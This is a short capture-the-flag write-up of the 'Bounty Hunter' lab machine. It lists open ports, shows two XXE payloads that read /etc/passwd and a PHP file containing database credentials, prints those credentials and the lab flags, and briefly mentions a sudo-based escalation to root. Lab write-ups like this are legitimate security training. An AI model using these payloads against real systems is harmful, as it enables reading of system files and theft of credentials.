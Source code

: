 # Bounty Hunter - 10.10.11.100

## Open Ports:

```
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
```

Found XXE Injection in: /log_submit.php

XXE payloads:

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
		<bugreport>
		<title>abc</title>
		<cwe>abc</cwe>
		<cvss>&ent;</cvss>
		<reward>456</reward>
		</bugreport>
```

This gave a user: development

Found a .php file db.php using nikto scan.

To read the contents:

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> ]>
		<bugreport>
		<title>abc</title>
		<cwe>abc</cwe>
		<cvss>&ent;</cvss>
		<reward>456</reward>
		</bugreport>
```

It gave credentials to database.

```
development:m19RoAU0hP41A1sTsq6K
```

SSH into the machine.

```
user.txt: f710dc54bfdda8069dbae4e9443b7f1f
```

We can use sudo on a python3.8 file /opt/skytrain_inc/ticketValidator.py

It requests a file with .md extensions and the file must meet some conditions.

Wrote an exploit to get the root shell.

On running the script with sudo and providing the exploit path, got the root shell.

```
root.txt: 2d062daf2ff289356506e69ac6efd625
```
